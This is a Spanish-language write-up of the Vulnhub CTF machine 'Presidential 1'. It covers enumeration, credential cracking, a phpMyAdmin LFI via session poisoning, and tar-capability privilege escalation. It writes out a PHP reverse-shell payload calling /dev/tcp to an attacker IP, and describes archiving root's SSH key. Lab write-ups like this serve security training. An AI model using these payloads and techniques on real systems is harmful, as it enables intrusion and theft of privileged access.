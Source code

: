 ```yaml
---
author: Helder
title: Vulnhub - Presidential 1
tags : [Linux,LFI]
categories: [Vulnhub,Medium]
date: 2023-10-15 11:33:00 +0800
mermaid: true
---
```

Description: The Presidential Elections within the USA are just around the corner (November 2020). One of the political parties is concerned that the other political party is going to perform electoral fraud by hacking into the registration system, and falsifying the votes.

The state of Ontario has therefore asked you (an independent penetration tester) to test the security of their server in order to alleviate any electoral fraud concerns. Your goal is to see if you can gain root access to the server – the state is still developing their registration website but has asked you to test their server security before the website and registration system are launched.

This CTF was created and has been tested with VirtualBox. It should also be compatible with VMWare and is DHCP enabled.

Máquina [**Presidential**](https://www.vulnhub.com/entry/presidential-1,500/)

---
## Reconocimiento

- [ ] arp scan
Realizamos el respectivo escaneo

![arp](https://helhat.github.io/assets/img/Presidential/arp.png){: .normal }

- [ ] nmap
Descubrimos los puertos abiertos.

![scan1](https://helhat.github.io/assets/img/Presidential/scan1.png){: .normal }

Realizamos el escaneo correspondiente der versiones y scripts básico de nmap.

![scan2](https://helhat.github.io/assets/img/Presidential/scan2.png){: .normal }

---
## Enumeración
- [ ] Identificamos tecnologías con whatweb y  nos percatamos que existe un dominio en particular y utilizan php.

![what](https://helhat.github.io/assets/img/Presidential/what.png){: .normal }
![vote](https://helhat.github.io/assets/img/Presidential/vote.png){: .normal }

- [ ] Configuramos virtual hosting

![virtual](https://helhat.github.io/assets/img/Presidential/virtual.png){: .normal }

- [ ] Fuzzing

![fuzz](https://helhat.github.io/assets/img/Presidential/fuzz.png){: .normal }

Enumeramos los archivos sin tanto éxito.

![assests](https://helhat.github.io/assets/img/Presidential/assets.png){: .normal }

- [ ] Fuzzing dir virtual hosting , con alguna extensiones comunes, pero con el mismo resultado

![fuzz2](https://helhat.github.io/assets/img/Presidential/fuzz2.png){: .normal }

El archivo config.php no muestra nada, posiblemente por que lo está interpretando.
Si realizamos fuzzeo de virtual hosting usando vhost tendremos varios estados, así que intentaremos filtrar por el estado 200

![fuzz3](https://helhat.github.io/assets/img/Presidential/fuzz3.png){: .normal }
![fuzz4](https://helhat.github.io/assets/img/Presidential/fuzz4.png){: .normal }
![status](https://helhat.github.io/assets/img/Presidential/status.png){: .normal }
![login](https://helhat.github.io/assets/img/Presidential/login.png){: .normal }

- [ ] fuzzing extensiones. Esta vez realizaremos una búsqueda de extensiones adicional de php.bak , encontrando un recurso importante.

![fuzz5](https://helhat.github.io/assets/img/Presidential/fuzz5.png){: .normal }

Estas credenciales parecen ser de la ruta de logueo.

![cred](https://helhat.github.io/assets/img/Presidential/cred.png){: .normal }
![logueo](https://helhat.github.io/assets/img/Presidential/logueo.png){: .normal }

Teniendo acceso a esta plataforma enumeramos usuarios y funciones, uno de ellos tenemos unas credenciales

![enum](https://helhat.github.io/assets/img/Presidential/enum.png){: .normal }

Creamos un archivo y procedemos a crackearlo.

![hash](https://helhat.github.io/assets/img/Presidential/hash.png){: .normal }
![crack](https://helhat.github.io/assets/img/Presidential/crack.png){: .normal }

Dejamos un buen tiempo y mostramos nuestra password será Stella.
Es necesario indicar que el servicio ssh no permite conexiones por el puerto 2082.
Ahora buscaremos una manera de explotar esta plataforma phpMyAdmin según su versión.

![enum2](https://helhat.github.io/assets/img/Presidential/enum2.png){: .normal }

- [ ] searchsploit 

![search](https://helhat.github.io/assets/img/Presidential/search.png){: .normal }

En esta ocasión tenemos un RCE, pero antes debemos saber en donde aplicarlo.

---
## Explotación

### LFI
- [ ] Buscamos por la web y encontramos 1 recurso adicional que nos indica la ruta igual que el exploit de searchploit.

![vuln](https://helhat.github.io/assets/img/Presidential/vuln.png){: .normal }

En tal caso tenemos la siguiente ruta para un LFI.
✔En caso no permita el ? , lo podemos urlencodear %3f.
Como se mencionó anteriormente teníamos un script, aquí podemos observar una ruta, la diferencia es que cambiaremos el /sessions/ por /session/  y colocaremos nuestro cookie de sesion.

![url](https://helhat.github.io/assets/img/Presidential/url.png){: .normal }

Intentaremos un LFI en /etc/passwd , siendo exitoso.

![lfi](https://helhat.github.io/assets/img/Presidential/lfi.png){: .normal }

Como podemos notar tenemos respuesta usando como parámetro *db_sql.php*, de esta manera probaremos una inyección de comandos tipo php en una query SQL.

![query](https://helhat.github.io/assets/img/Presidential/query.png){: .normal }

O con un simple hola

![test](https://helhat.github.io/assets/img/Presidential/test.png){: .normal }

- [ ] LFI Log poisoning - ruta del script - ID logueo
Confirmado que interpreta la query, intentaremos llegar a la dirección completa con nuestro ID nuevamente. Y es aquí donde vemos la respuesta reflejada.  De esta manera cuando generemos nuestro RCE solo tendremos que actualizar la web en esta ruta.

![ses](https://helhat.github.io/assets/img/Presidential/ses.png){: .normal }

### RCE - SQL
- [ ] RCE
Ahora que conocemos el lugar donde ejecutar un comando, intentaremos un RCE. Tener en cuenta que si bien es una query SQL, esta bajo un lenguaje php, debemos tener la sintaxis presente.

![rce](https://helhat.github.io/assets/img/Presidential/rce.png){: .normal }

```
'<?php system("bash -i >& /dev/tcp/192.168.65.139/1234 0>&1"); ?>';
```
Luego de mandar el one liner para nuestro reverse shell , ingresamos la dirección del script, en la web.

![url](https://helhat.github.io/assets/img/Presidential/url.png){: .normal }

Actualizamos la web. Esto nos dará la reverse shell.

![netcat](https://helhat.github.io/assets/img/Presidential/netcat.png){: .normal }

- [ ] Mejorar
Por cuestiones de practicidad mejoramos la Terminal
```
script /dev/null -c bash
stty raw -echo; fg
	reset xterm
export TERM=xterm
export SHELL=bash
stty rows 35 columns 140
```

---
## Escala Privilegios - Persistencia

- [ ] Cuando usamos jhon the ripper para cifrar la password encriptada---- Stella, podemos usarlo aquí, solo quedaría saber que usuario es el correcto.

![esc](https://helhat.github.io/assets/img/Presidential/esc.png){: .normal }

Enumerando el sistema en busca de permisos suid, sudo, etc y archivos. Encontramos un documento interesante.

![notes](https://helhat.github.io/assets/img/Presidential/notes.png){: .normal }

Como nos indica en este archivo, buscaremos algo relacionado a un comprimido.
- [ ] Capabilities
Buscando capabilities encontramos un binario tar.

![cap](https://helhat.github.io/assets/img/Presidential/cap.png){: .normal }

- [ ] cvf
El objetivo ahora es crear un comprimido tar, de un archivo o directorio con permisos privilegiados que normalmente no tenemos acceso. Y finalmente intentar acceder a este descomprimiendolo.

![desc](https://helhat.github.io/assets/img/Presidential/desc.png){: .normal }
![desc2](https://helhat.github.io/assets/img/Presidential/desc2.png){: .normal }

Revisamos la carpeta descomprimida

![root](https://helhat.github.io/assets/img/Presidential/root.png){: .normal }

- [ ] ssh
En un entorno CTF esto sirve, pero para generar una Escalada de privilegios mas real, podemos usar este mismo binario *tarS* para comprimir solo la key del .ssh y tener acceso por el puerto 2082; o ya con toda la carpeta root/ comprimida, aprovechar en acceder solo a este archivo.

![key](https://helhat.github.io/assets/img/Presidential/key.png){: .normal }

Lo copiamos en nuestra PC atacante

![copy](https://helhat.github.io/assets/img/Presidential/copy.png){: .normal }

Cambiamos permisos

![perm](https://helhat.github.io/assets/img/Presidential/perm.png){: .normal }
![root2](https://helhat.github.io/assets/img/Presidential/root2.png){: .normal }

Ahora si tendremos acceso a todo el sistema.

